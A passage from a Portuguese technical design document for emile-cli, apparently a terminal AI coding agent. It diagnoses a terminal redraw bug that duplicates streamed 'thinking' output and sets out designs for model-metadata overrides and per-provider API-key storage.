





# Deep Dive — emile-cli por dentro

> **Status:** 🟢 Current · **Documento de contexto profundo.** O [guia de arquitetura](architecture.md) responde "por quê" e dá o mapa de módulos em uma página; este arquivo mostra **como funciona por dentro** — o pipeline de streaming real, a matemática de contexto e custo, a integração OpenCode, o sistema de skills, o system prompt, as ferramentas, o MCP e a UI — e registra as **quatro frentes de melhoria técnica** identificadas em 2026-10-08 (duplicação no streaming, metadados de modelo ausentes no OpenCode, reconhecimento de skills globais/locais, troca de gateway sem redigitar chave). A fonte formal continua sendo `architecture.md` e os [ADRs](adr/); as referências `arquivo:linha` abaixo apontam para o código atual.

**Como ler:** as seções 1–4 dão o mapa, os princípios e o caminho de um turno. As seções 5–7 descem no streaming — camada de dados e camada de render — porque é ali que mora o problema perceptível de "mensagens duplicadas". As seções 8–9 cobrem modelos, credenciais de gateway (§ 8.4) e skills. As seções 10–13 fecham persistência, compressão, segurança e memória. As seções 14–19 são a segunda camada — as superfícies pedidas para futuras melhorias: system prompt (§ 14), ferramentas (§ 15), MCP (§ 16), web (§ 17), ciclo de vida do processo (§ 18) e UI/UX (§ 19). A seção 20 é o índice de padrões e a 21, o estado da implementação com o backlog técnico priorizado. A seção 22 registra a análise comparativa com o **grok-build (xAI)** feita em 2026-10-09 — é a fonte dos itens P0-4 a P2-17 do backlog (§ 21.1) e dos briefs de dispatch da segunda onda.

---

## 1. O sistema em uma página



Quatro gateways, um só cliente. A promessa do stack ([ADR-0001](adr/0001-tech-stack-choice.md)): Node ≥ 18, ESM puro, **sem build step**, o SDK `openai` trocando só `baseURL`. Tudo que é específico de provider fica confinado a `api/client.js`, `config.js` e `models.js` — o loop em `agent.js` é provider-agnóstico (princípio 5 de `architecture.md` § 5).

---

## 2. Os princípios que sustentam o desenho

1. **Prefixo de cache estável.** O system prompt é congelado por chave `(plansMode, skills)` e reusado entre turnos (`agent.js:225-230`). Reconstruí-lo por turno re-snapshotia a árvore do workspace, muda `messages[0]` e invalida o cache do provider da posição 0 para frente — cada requisição passa a cobrar input cheio. Este é o princípio mais caro do projeto: qualquer feature que injecte conteúdo volátil no system prompt quebra economia real de custo.
2. **Fail-closed nas bordas.** Comando fora da whitelist exige confirmação; path que resolve fora do workspace **lança** (`tools/security.js:81-83`); MCP novo só conecta após consentimento persistido; config ausente derruba para o wizard, não para default silencioso.
3. **UI é dona da renderização.** Só `ui/` escreve ANSI ao usuário; status de agente/spinner/compressão consomem a paleta `C` (Regra 4.3 do `.clinerules`, `ADR-0002` como gate de lint).
4. **O turno é idempotente no dado, não no render.** Duplicados de provider são neutralizados na camada de dados (`getIncrementalText`); a camada de render assume que cada delta exige redesenhar o quadro — e é exatamente essa assimetria que produz o bug da seção 7.
5. **Persistir só o que é recuperável.** Checkpoint `tool_pending` antes/depois de cada ferramenta (`agent.js:670-673`, `agent.js:723-726`); `reasoning_content` sai da projeção persistida; snapshots têm teto de tamanho (`config.maxSessionSize`, default 10 MB, `config.js:104-106`).

---

## 3. Anatomia do boot e do REPL

O caminho de `node bin/emile.js` até o primeiro prompt (referências em `src/cli.js`):

- **Bootstrap magro** (`bin/emile.js:6`): um import, `main()`, fatal handler. Dependências pesadas são `import()` dinâmicos dentro de `main()` (`cli.js:54-64`) — `--help` não paga o custo do agente inteiro.
- **Config em três camadas** (`config.js:92-117`): `~/.emile/config.json` > env var específica do provider > default. `resolveApiKey()` (`config.js:81-90`) **não faz fallback cruzado de provider** — chave salva para Requesty não vale para OpenRouter. O arquivo é gravado `0600` (`config.js:157`).
- **Catálogo de modelos fire-and-forget** (`cli.js:97-98`): `initModelCatalog()` roda em background; nada bloqueia o prompt. Detalhes na seção 8.
- **MCP, recovery, lifecycle**: conexão MCP com spinner silencioso; `runStartupRecovery()` classifica checkpoints pendentes (`recovery.js`); `installShutdownHandlers` instala o coordinador SIGINT/SIGTERM/SIGHUP em 6 fases ordenadas (`cli.js:164-170`).
- **REPL com duas mãos no stdin**: em idle, `persistentPromptInput` dono exclusivo; durante um turno, `listenTurnKeys` assume o stdin em raw mode e **aluga temporariamente `process.stdout.write`** (seção 6.2). Enter durante o turno não interrompe: a linha vai para `pendingQueue` (FIFO) e roda no próximo turno (`cli.js:358-370`, `444-465`). Esc/Ctrl+C cancela via `turnControl`, que aborta o HTTP em voo (CHANGELOG "Cancel now aborts the in-flight stream").

---

## 4. O turno do agente, ponta a ponta



Invariantes que o loop tranca:

- **Cabo de segurança de iterações**: `MAX_LOOP_ITERATIONS = readPositiveInt(config.maxLoopIterations, DEFAULT_MAX_LOOP_ITERATIONS)` (`agent.js:313`). Fonte única de verdade: `DEFAULT_MAX_LOOP_ITERATIONS = 90` exportado por `config.js` (spec `2026-10-08-maxloop-divergence`) — o fallback `|| 40` da divergência (P2-8) foi removido; `readPositiveInt` é agora exportado e revalida o valor mutado.
- **Overflow de contexto tratado como dado, não como erro genérico**: `isContextOverflowError()` detecta 413 e 400 com mensagens de contexto (`agent.js:44-52`) e dispara **uma** compressão forçada por turno (`agent.js:400-415`) — reenviar o mesmo payload estourado entraria em loop.
- **Fallback de pago → free**: erro em modelo pago troca uma vez por `openrouter/free` sem perder contexto (`agent.js:419-427`).
- **Cancelamento é gracioso**: chunk-a-chunk, o que foi renderizado fica; tool calls incompletos são **descartados** (argumentos possivelmente truncados), texto parcial é mantido (`agent.js:653-661`).

---

## 5. O pipeline de streaming — camada de dados (correto)

A entrada bruta é um stream SSE OpenAI-compatível consumido em `agent.js:447-535`. Cada chunk passa por quatro pias:

### 5.1 `getIncrementalText(previous, incoming)` — `reasoning.js:24-39`

Alguns gateways enviam **snapshots cumulativos** em vez de deltas puros (e.g. "O", "Ol", "Ola" a cada chunk). A função devolve só o texto nunca visto:

- `incoming` prefixado por `previous` → corta o prefixo (linha 28);
- `incoming` é sufixo já contido em `previous` → vazio (linha 29);
- overlap de borda ≥ 2 chars é removido antes de aceitar como novo (linhas 33-37) — casuística real de gateways que reenviam a última janela;
- nada disso casa → `incoming` é tratado como delta legítimo.

Este é o **fix de nível de dado** do problema de duplicação (commit `86f1bea`, "deduplicate stale prefix snapshots"). Funciona, é testado, e o loop de parsing em `agent.js:486-517` o aplica para reasoning legado E para `content`.

### 5.2 Duplos canais de reasoning — regra de fonte única

Providers expõem o mesmo pensamento por dois caminhos: o campo legado (`delta.reasoning_content || delta.reasoning`) e o estruturado OpenRouter (`delta.reasoning_details[]` com `id`/`index`, tipos `text`/`summary`/criptografados). `agent.js:432-442` declara `reasoningDisplaySource`; o primeiro canal legível vence e o outro **deixa de ser renderizado** — mas `reasoning_details` continua preservado na mensagem (`agent.js:606-608`) porque OpenRouter exige o bloco estruturado de volta na próxima tool call. `appendReasoningDetails()` (`reasoning.js:49-86`) mescla fragments por chave `id:`/`index:` e devolve o texto incremental já deduplicado.

### 5.3 Tool calls incrementais

`agent.js:520-534` agrega por `index`: `id`, `function.name` e `function.arguments` chegam fatiados; a concatenação reconstrói o JSON. Se o provider não usar tool calls nativas mas escrever `<TOOLCALL>{json}</TOOLCALL>` no texto, um regex de extração captura (linhas 616-643) — shim de compatibilidade deliberado para modelos free fracos em function calling.

### 5.4 Retry sem replay de render — `streamWithRetries` (`client.js:202-240`)

Retries de stream são permitidos **somente enquanto nenhum chunk foi entregue** (`receivedChunk` flag, linha 224). Replays de stream parcial duplicariam reasoning/texto/tool deltas no terminal — a correção está no comentário das linhas 197-201 e na sua implementação. Cancelamento por signal nunca é retryado (linhas 207, 223).

**Conclusão da seção:** na camada de dado o problema de duplicação está resolvido. Se ainda houvesse duplicação "de verdade", ela apareceria também no `/export` e na mensagem persistida — não aparece: o sintoma descrito ("replicando mensagens e thoughts na tela") é de **render**, seção 6–7.

---

## 6. O pipeline de streaming — camada de render

### 6.1 Os três renderers do turno

| Renderer | Quando | Estratégia | Arquivo |
|---|---|---|---|
| Spinner | antes do 1º chunk | linha única `\r\x1B[K`, atômica | `ui/spinner.js:60-105` |
| Thinking expandido | a cada delta de reasoning | **redraw do bloco inteiro** com cursor-up | `ui/thinking.js:79-127` |
| Response | fim do stream, uma vez | box aberto, render final | `ui/response.js:31-83` |

O response **não** é redrew por delta neste código — `printAssistantResponse(textContent)` é chamado uma única vez por iteração do loop (`agent.js:594-596`). O `appendResponseStream` do diagnóstico de 2026-09-24 (redraw progressivo do texto, commit `b5e6c37`) **não existe mais** no `response.js` atual (arquivo lido por completo: 84 linhas, única exportação de render é `printAssistantResponse`). **Sobrou o thinking expandido.**

### 6.2 A arbitragem de stdout (ADR-0003) — `ui/turn-keys.js:118-303`

Durante o turno o prompt completo fica visível abaixo da saída do agente. A implementação: `listenTurnKeys` substitui `process.stdout.write` por `interceptedWrite` (linhas 152-163): cada write do agente → **hide do frame do prompt → write real → repaint do frame** (com save/restore de cursor ESC7/ESC8). O frame do prompt reserva linhas físicas com `'\n'.repeat(reserveRows)` + cursor-up (linhas 72-73) para que a saída do agente nunca caia por cima dele.

Consequência direta registrada no próprio ADR: *"renderers should prefer atomic writes"* — um renderer que emite um frame multi-linha com cursor-up precisa ser **atômico** (um único `write` por quadro). `appendThinkingStream` é atômico (monta `output` e faz um `write`, `thinking.js:99-125`) — o que não é atômico é a **matemática do cursor-up** que ele faz, e é aí que o quadro quebra.

---

## 7. O problema das duplicações — diagnóstico e plano de correção

### 7.1 Sintoma observado

Com `config.expandThinking = true` (default, `config.js:109`), pensamentos longos de modelos raciocinadores (Claude com `thinking.budget_tokens`, DeepSeek-R1, OpenRouter reasoning) aparecem **repetidos várias vezes no terminal**, como se o agente estivesse alucinando o mesmo texto. A resposta final (box) normalmente não duplica; o thinking sim.

O relatório do usuário fala de **mensagens e thoughts** duplicando. Três vetores explicam a parte de "mensagens", além do redraw do thinking (seção 7.2):

1. **Um box por iteração do loop** (design): num turno com N iterações de ferramentas, cada resposta parcial do modelo vira um box próprio (`agent.js:594-596` executa por iteração). Com thinking expandido entre eles, o scroll acumula texto sobre o mesmo assunto — legítimo, mas lido como repetição.
2. **Frames cumulativos no scrollback**: quando o cursor-up falha (7.2), o que fica permanente são os **frames antigos do thinking**, e cada frame contém o pensamento inteiro até ali — ou seja, o mesmo texto N vezes. É o principal gerador da impressão de alucinação.
3. **Resume de sessão** (`cli.js:321`, `printConversationHistory`): carregar histórico com `-H` reimprime a conversa no terminal; múltiplos resumes na mesma janela de scroll mostram o mesmo texto duas passadas — correto por design, indistinguível de bug para quem lê.

### 7.2 Causa raiz — redraw cumulativo vs. margem do terminal

`appendThinkingStream` (`thinking.js:97-123`), a cada delta:

1. Constrói **todas** as linhas wrapadas do buffer acumulado (`newLines`, linhas 91-95);
2. Emite `\x1B[${oldTotal}A` para subir ao topo do bloco (linha 103);
3. Re-renderiza header + todas as linhas com `\r\x1B[K` por linha (linhas 107-114);
4. Se encolheu, limpa sobras e recompensa a posição (linhas 117-123).

Isso só é visualmente correto **enquanto o bloco inteiro couber acima do cursor dentro do viewport**. Três modos de falha:

- **Overflow de viewport**: quando `oldTotal` ≥ número de linhas visíveis do terminal, o cursor-up não consegue voltar acima da primeira linha do scroll region — as linhas antigas já rolaram para o scrollback e **não podem ser apagadas**. Cada delta redesenha o quadro completo *por baixo* do anterior → o usuário vê N cópias cumulativas de um mesmo pensamento (multiplicação linear de linhas; o teste de 2026-09-24 mediu 13.5× bytes / marcador 253× para 22 snapshots num cenário análogo com response stream).
- **stdout não-TTY** (pipe, redirect, `tee`): `\x1B[nA` é ignorado; **todos os quadros cumulativos** vão para o stream na ordem — duplicação garantida no arquivo de saída.
- **Interação com o lease (ADR-0003)**: `interceptedWrite` roda para cada write do agente e o prompt frame se ancora "uma linha abaixo do cursor". A posição absoluta que `thinking.js` assume (relativa só ao seu próprio contador `_thinkingLinesPrinted`) não conhece as linhas que o lease empurra — em janelas pequenas e turnos com many writes a contagem de `oldTotal` deriva da posição real, e os apaga-apagas começam a errar linha.

Não há **nenhuma** guarda hoje: `thinking.js` não consulta `process.stdout.isTTY` nem `process.stdout.rows` no caminho de redraw (procurado: `isTTY` só aparece em `turn-keys.js:45,119`). O guard acordado em 2026-09-24 permanece não aplicado.

### 7.3 Por que a suíte não pega

O diagnóstico de 2026-09-24 citava `test/live-response-stream.test.js` — esse arquivo **não existe mais** no repo atual (probe direto: não encontrado), assim como `appendResponseStream`. Cobertura de render em si não foi verificada arquivo por arquivo neste documento. O argumento estrutural, porém, vale para qualquer teste do formato atual: um stdout fake que acumula os writes e verifica o texto **final** do buffer está testando o último quadro — e o último quadro de um redraw cumulativo é, por definição, a versão completa correta. O artefato do bug são os **quadros intermediários** que ficam no scrollback. Teste que passa nesse modelo necessariamente falha no terminal real. A regressão de 7.4 (contar ocorrências de marcador, não comparar buffer final) é o que fecha essa lacuna de método, não só de caso.

### 7.4 Correção proposta (design, não aplicada)

**Invariante-alvo:** um pensamento é impresso **uma única vez**, em qualquer terminal, com ou sem TTY, em qualquer altura.

1. **Append-only streaming** — substituir o redraw por delta completo por emissão incremental:
   - manter `_printedLineCount` (linhas já emitidas) e o buffer atual;
   - a cada delta, renderizar só as linhas novas: ao wrap, uma linha pode **parcialmente** crescer com o próximo delta — tratar só o caso completo: a última linha do bloco é "aberta" (re-escrever apenas ela com `\r\x1B[K` na mesma linha, sem cursor-up além de 1); linhas fechadas (terminadas por `\n`) nunca são tocadas de novo;
   - quando `newLines.length ≤ _printedLineCount` **e** o bloco coube no viewport (nunca rolou), o cursor-up é seguro — senão, nunca apagar linha já rolada.
2. **Guardas duras** no início de `appendThinkingStream`:
   ```js
   const fits = _thinkingHeaderLineCount + _thinkingLinesPrinted
              <= (process.stdout.rows || 50) - 2;
   if (!process.stdout.isTTY || !fits) {
     // modo append-only: emite apenas o sufixo novo do delta
     // uma vez; sem cursor-up, sem re-render.
   }
   ```
3. **`endThinkingStream` expandido** já usa cursor-up para trocar só o header (linhas 148-155) — com a correção 1 ele permanece válido porque opera no bloco final que coube; se não coube, o header vira uma linha de rodapé nova em vez de overwrite.
4. **Teste de regressão** (a lacuna exata registrada na memória): um stdout fake contando **ocorrências de um marcador** no texto ao longo de ~30 deltas de um pensamento de 200+ linhas, com `rows` simulado pequeno (24) e com `isTTY=false`:
   ```js
   const occurrences = fakeOutput.split('MARCA_ÚNICA').length;
   assert.equal(occurrences, 1, 'each word must be rendered exactly once');
   ```
   Cobrir os três modos: viewport estourado, pipe, e lease ativo (`listenTurnKeys` instalado).
5. O mesmo padrão de teste deve valer para **response**, garantindo que a remoção do `appendResponseStream` não regrida (ele pode voltar como opção de UX *só* com o modo append-only pronto).

**Custo/benefício:** mudança confinada a `ui/thinking.js` + 1 arquivo de teste; o comportamento colapsado (default histórico `/thinking` off) já é imune porque não redesenha (`thinking.js:84-85`).

---

## 8. Modelos, gateways, credenciais e o teto de 128K

### 8.1 A hierarquia de metadados — `models.js`

`getModelInfo(model)` (`models.js:58-77`) resolve em três camadas, na ordem:

1. **Catálogo dinâmico OpenRouter** (`GET https://openrouter.ai/api/v1/models`, fetch no boot, cache persistido em `.emile/models-cache.json`, TTL 24 h, validade 30 d) — lookup `byExact` e por sufixo (`glm-4.6` casa com `z-ai/glm-4.6`);
2. **Tabela estática `MODEL_INFO`** (`models.js:14-43`) — regex por família (primeiro match vence);
3. **`DEFAULT_MODEL_INFO`** (`models.js:46-51`) — `context: 262000`, preços 3/15 USD.

### 8.2 Onde o OpenCode dói — exatamente

O OpenCode Zen/Go expõe `GET /models` **OpenAI-compatível que só carrega `id`** (comentário no código: `models.js:247-255`; o parser `parseProviderModelIds` (`models.js:265-269`) extrai literalmente apenas isso — não há `context_length`, nem `pricing`, nem `supported_parameters`). Consequências, todas com referência real:

- **Lista de modelos** funciona: `getProviderModelOptions()` (`models.js:294-314`) cai na URL do Zen/Go e casa ids com `getModelInfo(id)` — que, para um id nu como `kimi-k2-turbo`, **pode** acidentalmente acertar o catálogo OpenRouter by-suffix (mesmo sob provider OpenCode — `_dynamicCatalog` não é filtrado por provider em `getModelInfo`). Mas não há garantia: ids com codinomes próprios do Zen não existem no OpenRouter → caem na tabela estática (regex por família) ou no **default**.
- **O default que o usuário vê como "128K"** vem de três lugares distintos: `sessionStats.contextLimit` nasce `128000` antes de `initSessionStats` (`session-stats.js:22`); o default de `DEFAULT_MODEL_INFO` hoje é 262 000 (`models.js:47`); a rota free é 128 000 (`models.js:16`); e `hardTruncateHistory` usa fallback 128_000 se o limit vier inválido (`compression.js:29`). O display "128K de padrão" é sintoma do stats inicial não re-sincronizado ou de um free-route — **documentar a origem exata do número que aparece** deve ser o 1º passo da melhoria.
- **Precos**: `calculateCost()` (`session-stats.js:29-32`) usa `getModelInfo` — idem acima: ou acertado pelo catálogo, ou **chutado pela tabela estática/default**. Os gateways Zen cobram por routed-model com preço próprio; o valor em `/cost` pode divergir silenciosamente.- **Pressão de compressão**: o gate de compressão compara a estimativa com `contextLimit` (`agent.js:290-301` + `compression.js:77`). `contextLimit` errado **para menos** → compressão prematura e cara; **para mais** → 413/400 → compressão forçada de emergência (seção 4). O custo de um contexto errado é real e em duas direções.

### 8.3 Plano de melhoria (design, por custo de esforço)

**A — Override por modelo no config global (XS, fecha o problema hoje).** Adicionar a `~/.emile/config.json` a chave:

```json
{ "modelOverrides": { "stealth/space-bunny-alpha": { "context": 200000, "inputPrice": 3, "outputPrice": 15, "reasoning": true } } }
```

Integração: uma linha no topo de `getModelInfo()` (`models.js:58`) consultando um `Map` carregado por `config.js`; o wizard `/model` (`commands.js`/`ui/model-picker.js`) ganha a opção "set window/pricing" por modelo. Zero dependência do que o OpenCode resolve fazer.

**B — Catálogo externo `models.dev` (S, cobertura de comunidade).** A comunidade de gateways OpenAI-compatíveis padronizou um diretório público: `https://models.dev/api.json` carrega, por `provider → model`, `limit.context`, `cost.input/output` e `modalities`. Buscar esse catálogo quando `provider ∈ {opencode, opencode-go, requesty}` com o mesmo padrão do OpenRouter: fetch fire-and-forget no boot, cache com TTL, e uma fonte por provider num `providerCatalogs` Map. Integração: novo `fetchDevCatalog()` ao lado de `fetchCatalog()` (`models.js:162-172`) e `getModelInfo` consultando o catálogo do **provider ativo** primeiro.
**C — Honestidade na UI (XS).** Quando `getModelInfo` cair em tabela estática ou default, marcar o contexto como estimado: badge `~` no status bar e em `/cost` (precedente do `~`-prefix já existe para tokens estimados, `architecture.md` § 3, invariante 4). O usuário pode então corrigir via override A em vez de confiar num 128K silencioso.

**D — Upstream (sempre):** o Zen poderia servir o shape do catálogo do OpenRouter no `/models`; vale issue no repo do opencode. A, B e C não esperam por D.

### 8.4 Credenciais multi-provedor: a dor do `/connect` e o design do `/provider`

**O problema (verificado no código).** Trocar de gateway hoje obriga a redigitar a API key **a cada troca**, porque o armazenamento é de **um único slot**:

- `saveUserConfig()` persiste `~/.emile/config.json` com um campo plano `apiKey` (`config.js:142-149`) — gravar o provider B **sobrescreve** a chave salva do provider A;
- `runConnectWizard()` sempre pede a chave: select de provider → `password()` incondicional (`commands.js:115-120`) → `saveUserConfig({provider, apiKey, model: defaultModel})` (`commands.js:127-131`); não há caminho "trocar para provider que já tem chave configurada";
- `resolveApiKey(provider)` só devolve a chave salva quando `savedConfig.provider === provider` (`config.js:82-83`) — a checagem é correta (ver adiante), mas com um slot só significa que, após configurar B, a chave de A não existe em lugar nenhum além do env var;
- o `model` também é destruído na troca: o wizard força o `defaultModel` do provider novo (`commands.js:130`), e voltar para o provider A não restaura o modelo que você escolheu lá;
- o registry de slash commands (`commands/index.js:23-46`) **não tem** `/provider` — `/connect` é o único caminho de troca, e ele é o wizard completo.

A **única** multi-key funcional hoje é via ambiente: `ENV_KEY_MAP` (`config.js:65-70`) mapeia `REQUESTY_API_KEY`/`OPENROUTER_API_KEY`/`OPENCODE_API_KEY` e resolve por provider no fallback (linhas 85-88) — manual, por shell, e invisível para o usuário médio. Detalhe do env: Zen e Go **compartilham** `OPENCODE_API_KEY` — se os dois gateways têm chaves distintas na OpenCode, esse mapeamento é uma armadilha a validar antes de tocar no schema.

**A restrição de segurança que o design deve preservar.** O fallback cruzado silencioso de chave (mandar a key do Requesty para o OpenRouter) foi **deliberadamente removido** (`config.js:76-77`, IMPROVEMENTS § 1.4). A checagem de provider na linha 82 existe por isso; a redação em erros/logs (`client.js:153-155`) e a política "API keys nunca em log/export" (`.clinerules` § 6.2) também. Multi-slot **por provider** mantém o isolamento: a chave de A nunca é resolvida para B.

**O precedente que já existe no repo.** As credenciais web (Tavily/Firecrawl) vivem num store **multi-provider** com máscara: `.emile/web.json` com `${provider}ApiKey` via `saveEnhancedWebConfig`/`saveWebSettings` e prompt mascarado (`handlers.js:278-279`, "API keys are accepted only by the masked setup"). O store de chaves de gateway deve seguir o mesmo shape — não inventar um terceiro.

**Design proposto (pedido do usuário: `/connect` sincroniza, `/provider` troca):**

1. **Schema do config global** (`config.js:92-117` + `saveUserConfig`):

   ```json
   {
     "provider": "openrouter",
     "providers": {
       "requesty":    { "apiKey": "...", "lastModel": "anthropic/claude-3-5-sonnet" },
       "openrouter":  { "apiKey": "...", "lastModel": "google/gemini-2.5-pro" },
       "opencode":    { "apiKey": "...", "lastModel": "claude-sonnet-4-5" }
     },
     "model": "...", "effort": "..."
   }
   ```

   - `resolveApiKey(provider)`: `providers[provider]?.apiKey` → env map → `''`. Slot por provider = isolamento intacto; a linha 82-83 atual vira a leitura do slot.
   - **Migração de 1 vez no load:** se existir o `apiKey` plano legado, mover para `providers[provider]` e riscar o campo (o arquivo continua `0600` — `config.js:157` — agora guardando N chaves, o que torna a permissão ainda mais relevante).
   - Validar as chaves de entrada com zod (a lib já é dependência — ADR-0001), rejeitando shapes inesperados no `providers` em vez de estourar no runtime.
2. **`/connect` vira gerenciador de credencial, não o ritual de troca.** Para o provider X: se há `providers[X].apiKey` → oferece *testar · atualizar · trocar para X*, **sem** prompt de senha; se não há → o wizard atual (seleção de modelo ao final já validado contra o catálogo, `commands.js:139-149`). Rodar `/connect` sem provider-alvo pode listar o estado de todos (✓ configurado / env / ausente) — o "sincronizar os providers" do pedido.
3. **Novo `/provider`: troca em 2 teclas.** Lista `PROVIDERS` (`commands.js:28-90`) com marcação de quais têm chave salva; ao escolher Y com `providers[Y].apiKey`: `saveUserConfig({provider: Y, model: providers[Y].lastModel || defaultModel})` → `resetClient()` (`api/client.js:73-75`, obrigatório — o client cacheia `apiKey+provider` como chave de instância, `client.js:31`) → restaurar o `lastModel` daquele provider → revalidar contra o catálogo (`isKnownModel`, mesmo hook da § 4.2) → reimprimir o config box (`handleConnect` já faz `configureTerminalTitle` + `printConfigBox` no pós-wizard, `handlers.js:28-37` — o handler novo replica o padrão) → `initSessionStats` re-sincroniza `contextLimit` da nova janela (senão a barra de status e o gate de compressão operam sobre o modelo velho). Se Y não tem chave, cai no `/connect Y` — erro acionável, nunca prompt de senha no meio de outro comando.
4. **`lastModel` fecha a segunda metade da dor.** Sem ele, voltar ao OpenRouter joga você de volta no `claude-3-5-sonnet` default mesmo usando `gemini-2.5-pro` (`commands.js:130`). Persistir por provider torna A→B→A transparente, que é exatamente o cenário relatado (tokens do OpenRouter acabaram → OpenCode → voltou).

**Pontos de integração (exatos):** `config.js:81-90` (resolveApiKey multi-slot) e `:127-161` (saveUserConfig + migração); `commands.js:100-155` (wizard condicional); novo `handleProvider` em `commands/handlers.js` + registro na `COMMANDS` (`commands/index.js:23-46`) + plumbing via `commandContext` (`cli.js:407-439`, que já expõe `config`, `initSessionStats` e `runConnectWizard`); label novo no autocompletar do prompt (`prompt-input-persistent.js`, match por nome de comando).

**Testes de contrato (negativos incluídos):** (a) configurar opencode **não** apaga `providers.openrouter.apiKey`; (b) `resolveApiKey('requesty')` com chave salva só no openrouter → `''` (isolamento § 1.4 preservado); (c) migração: config legado com `apiKey` plano + `provider: openrouter` → chave vira `providers.openrouter.apiKey`, campo plano removido; (d) `/provider` para provider sem chave → mensagem acionável, sem prompt de senha; (e) after `/provider`, `sessionStats.contextLimit` == janela do modelo novo (link com § 11: o gate de compressão lê esse número).

**Custo:** S — o esquema de storage já tem precedente (web.json), os hooks de validação de modelo/pós-troca já existem, e nenhum gate de segurança muda de direção, só de cardinalidade (N slots em vez de 1, com o mesmo isolamento por provider).

> **Status: aplicado em 2026-10-09** (`specs/2026-10-09-provider-system/`, commits `feat(config)` + `feat(api)`). O desenho acima foi seguido na forma — `providers{}` versionado (v2, migração do campo plano no load), `/connect` gerenciador condicional (Keep/Update/Remove), `/provider` em 2 teclas com `lastModel` por provider e re-sync de `sessionStats`, isolamento por provider intacto, testes de contrato (a)–(e) em `test/provider-config.test.js`. **Deltas do rascunho:** (1) o parser defensivo do config é manual (`cleanSlot`/allow-lists), **sem zod** — decisão registrada no plan § 7; (2) o campo `version: 2` e os slots custom vieram junto: a feature foi **mesclada com a frente de provedores customizados (§ 21.1 onda 2)** — `/connect` registra endpoint qualquer com formato `anthropic-messages` / `chat-completions` / `responses`, e o knob extra `reasoningStyle` escolhe a chave de corpo do effort (`reasoning_effort`, `reasoning`, `thinking`, `enable_thinking`, `chat_template_kwargs`, `effort`, 